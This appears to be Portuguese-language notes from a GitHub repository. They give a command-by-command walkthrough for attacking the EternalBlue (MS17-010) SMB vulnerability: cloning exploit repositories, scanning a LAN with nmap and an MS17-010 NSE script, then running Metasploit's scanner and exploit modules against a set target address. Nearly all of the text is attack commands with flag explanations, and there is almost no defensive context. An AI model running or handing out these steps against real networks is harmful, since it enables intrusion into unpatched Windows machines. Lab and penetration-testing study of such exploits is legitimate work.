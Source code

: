 git clone https://github.com/vaamonde/nmap-nse-scripts
 
git clone https://github.com/vaamonde/exploit

git clone https://github.com/vaamonde/Eternalblue-Doublepulsar-Metasploit

git clone https://github.com/vaamonde/FakeImageExploiter

Verificar versão do NMAP:<br>	nmap --version<br>
				man nmap<br>
				
nmap -O -A -sV 192.168.1.0/24<br>
-O = detecção do Sistema Operacional<br>
-A = detecção do Sistema Operacional e Versão<br>
-sV = detecção do Sistema Operacional e Versão<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse localhost<br>
-d = habilita a Debug (log detalhado, pode ir até a opção 9)<br>
-sC = habilitar o rastreamento de scann de portas<br>
-p = número da porta a rastrear (445 - Microsoft-df - SMB/CIFS)<br>
--open = verificar somente portas abertas<br>
--max-hostgroup = número máximo de grupos para o scaneamento<br>
--script = indicar script remoto para o scan<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.0/24<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.150<br>

Atualizar o Metasploit:		msfupdate<br>
Acessar o Metasploit:		msfconsole<br>
Reload dos Exploit		reload_all<br>
Acessar o Modo Scan:<br>		use auxiliary/scanner/smb/smb_ms17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
							
Acessar o modo Exploit:	<br>	use exploit/ms17_010/ms_17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
